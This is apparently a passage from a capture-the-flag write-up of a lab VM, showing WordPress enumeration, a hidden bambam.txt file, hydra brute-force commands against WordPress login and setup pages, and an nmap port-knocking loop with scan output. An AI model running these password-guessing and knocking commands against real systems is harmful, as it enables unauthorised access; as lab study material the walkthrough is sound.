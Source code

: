 Looks like we have a wordpress admin access area and what appears to be an entirely separate wordpress instance that has not yet been fully configured in the /wordpress path.
The wordpress path is allowing me to setup a new instance of a wordpress site, but only if I am able to provide Database Credentials.

## Tell me a secret

The most interesting finding was the secret folder path that allowed the viewing of a file called bambam.txt.
http://192.168.126.131/secret/bambam.txt
```
8890
7000
666

pinkydb
```

With the wordpress username and secret content in hand, I converted the numbers into thier Ascii character equivalents and added them to the password list already created by vanquish (using CEWL and other sources).

I attempted to brute force my way into the Wordpress login page that I found and the wp setup page I had found.

```
hydra -l pinky1337 -P passwordlist.txt 192.168.126.131 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```


```
hydra -L users.txt -P passwordlist.txt 192.168.126.131 -V http-form-post '/wordpress/wp-admin/setup-config.php?step=2:dbname=database&uname=^USER^&pwd=^PASS^&dbhost=localhost&prefix=wp_&language=&submit=Submit:Error establishing a database connection'
```

The brute force apporach failed to yield any results.

## Knock Knock Knock...

After revisting bambam.txt again, I realized that these numbers are likely part of a port knock sequence to allow certian ports that are currently blocked to open up.  "Bam Bam" is of course the sound that someone makes when knocking on a door.

Port Knocking with Nmap
```
for x in 8890 7000 666; do nmap -Pn --host-timeout 201 --max-retries 0 -p $x 192.168.225.130 && sleep 1; done
```

Check results:
```
root@kali:~# nmap -sS -p80,4655,7654,31337 192.168.225.130
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-07 17:48 PST
Nmap scan report for 192.168.225.130
Host is up (0.00052s latency).

PORT      STATE    SERVICE
80/tcp    open     http
4655/tcp  filtered unknown
7654/tcp  filtered unknown
31337/tcp filtered Elite
MAC Address: 00:0C:29:11:5C:81 (VMware)
```
